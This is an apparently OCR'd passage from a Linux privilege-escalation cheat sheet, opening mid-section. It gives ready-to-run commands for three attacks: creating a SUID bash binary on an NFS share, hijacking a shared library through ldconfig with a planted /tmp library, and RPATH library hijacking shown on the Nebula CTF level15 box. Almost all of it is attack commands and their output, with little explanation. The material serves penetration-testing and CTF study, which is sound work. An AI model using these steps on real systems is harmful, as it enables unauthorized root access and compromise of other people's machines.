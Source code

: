     # create dir
    mkdir /tmp/nfsdir  
    
    # mount directory 
    mount -t nfs 10.10.10.10:/shared /tmp/nfsdir    
    cd /tmp/nfsdir
    
    # copy wanted shell 
    cp /bin/bash . 	
    
    # set suid permission
    chmod +s bash

## Shared Library

### ldconfig

Identify shared libraries with `ldd`

    $ ldd /opt/binary
        linux-vdso.so.1 (0x00007ffe961cd000)
        vulnlib.so.8 => /usr/lib/vulnlib.so.8 (0x00007fa55e55a000)
        /lib64/ld-linux-x86-64.so.2 => /usr/lib64/ld-linux-x86-64.so.2 (0x00007fa55e6c8000)

Create a library in `/tmp` and activate the path.

    gcc –Wall –fPIC –shared –o vulnlib.so /tmp/vulnlib.c
    echo "/tmp/" > /etc/ld.so.conf.d/exploit.conf && ldconfig -l /tmp/vulnlib.so
    /opt/binary

### RPATH

    level15@nebula:/home/flag15$ readelf -d flag15 | egrep "NEEDED|RPATH"
     0x00000001 (NEEDED)                     Shared library: [libc.so.6]
     0x0000000f (RPATH)                      Library rpath: [/var/tmp/flag15]
    
    level15@nebula:/home/flag15$ ldd ./flag15 
     linux-gate.so.1 =>  (0x0068c000)
     libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0x00110000)
     /lib/ld-linux.so.2 (0x005bb000)

By copying the lib into `/var/tmp/flag15/` it will be used by the program in this place as specified in the `RPATH` variable.

    level15@nebula:/home/flag15$ cp /lib/i386-linux-gnu/libc.so.6 /var/tmp/flag15/
    
    level15@nebula:/home/flag15$ ldd ./flag15 
     linux-gate.so.1 =>  (0x005b0000)
     libc.so.6 => /var/tmp/flag15/libc.so.6 (0x00110000)
     /lib/ld-linux.so.2 (0x00737000)
